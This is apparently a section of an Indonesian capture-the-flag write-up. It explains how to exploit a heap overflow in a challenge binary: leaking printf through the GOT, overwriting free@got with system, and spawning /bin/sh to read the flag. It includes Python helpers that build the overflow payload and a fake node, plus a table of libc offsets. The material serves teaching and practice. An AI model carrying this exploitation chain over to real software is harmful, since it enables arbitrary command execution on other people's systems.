

# Talatah Ti Peuntas — Eksploitasi

[← Overview](41-talatah-ti-peuntas.md) · [Index](index.md)

## 3.1 Strategi

1. **Node 0** (`key_size=0x18`, `tlv_len=0x40`): overflow node header sehingga `node0->data = printf@got`, `node0->len = 8`.
2. `view(0)` → 8 byte alamat `printf` → `libc_base = printf - 0x64080`.
3. **Node 1**: overflow → `node1->data = free@got`. `edit(1, p64(system))` → `free@got = system`.
4. **Node 2**: overflow → `node2->data = .bss`. `edit(2, "/bin/sh\0")` → tulis string ke `.bss`.
5. `delete(2)` → `free(.bss)` = `system("/bin/sh")`.
6. Shell → `cat flag.txt`.

## 3.2 Helper protokol

```python
def parse(p, key_size, tlv_len, payload):
    total = 0x14 + tlv_len
    msg = (b'TLT1' + b'\x00'*4 + struct.pack('>I', total)
           + struct.pack('>I', key_size) + struct.pack('>H', 1)
           + struct.pack('>H', tlv_len) + payload)
    p.sendlineafter(b'pilihan : ', b'1')
    p.sendlineafter(b'panjang pesan : ', str(total).encode())
    p.sendafter(b'pesan : ', msg)

def fake_node(dataptr, name=b'PWN', length=8):
    b  = b'A'*0x10
    b += p64(0)          # prev_size node chunk
    b += p64(0x31)       # size node chunk
    b += name.ljust(16, b'\x00')
    b += p32(length) + p32(0)
    b += p64(dataptr)
    return b             # 0x40 byte
```

## 3.3 Offset libc

| Item | Offset |
|---|---|
| `printf` | `0x64080` |
| `free` | `0xb5360` |
| `system` | `0x5c2e0` |

(lihat `assets/libc-offsets-and-gadgets.txt`)

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*
